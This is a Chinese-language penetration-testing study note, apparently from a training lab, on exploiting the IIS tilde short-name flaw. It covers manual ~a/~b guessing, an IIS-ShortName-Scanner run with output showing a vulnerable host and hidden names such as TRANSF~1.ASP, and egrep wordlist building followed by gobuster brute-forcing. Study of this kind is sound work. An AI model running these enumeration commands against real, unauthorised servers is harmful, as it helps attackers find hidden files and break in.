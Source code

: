 假如今天有一個檔案叫做apple.asp，有IIS Tilde弱點就會這樣
```
http://target/~a 200 OK
http://target/~b 404 Not Found
```
## 手動列舉手法
可以利用這個特性慢慢推到出檔案名稱
1. 先猜第一個字。
```
http://target/~a 200 OK
http://target/~b 404 Not Found
```
2. 發現有a開頭的檔案，就來猜第二個字，根據他的respond，可以慢慢推倒出所有隱藏檔案的名稱。
```
http://target/~aa 404 Not Found
http://target/~ab 404 Not Found
...
http://target/~ao 404 Not Found
http://target/~ap 200 OK
```
## 自動列舉手法
>[!warning] 小節重點
>利用 `IIS-ShortName-Scanner`可以先初步判斷，再用gobuster做目錄爆破
### IIS-ShortName-Scanner
[下載點](https://github.com/irsdl/IIS-ShortName-Scanner)
```shell-session
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/
```
```shell-session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
# IIS Short Name (8.3) Scanner version 2023.0 - scan initiated 2023/03/23 15:06:57
Target: http://10.129.204.231/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 3
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ CSASPX~1.CS??
    |_ TRANSF~1.ASP
```
發現有一個file叫做TRANSF......，我們可以根據這個線索區找真正的檔案名稱
### 製作wordlist
>可利用下列指令抓/wordlist 裡面所有跟transf有關的字詞，產生wordlist
```shell-session
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```
### gobuster
```shell-session
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```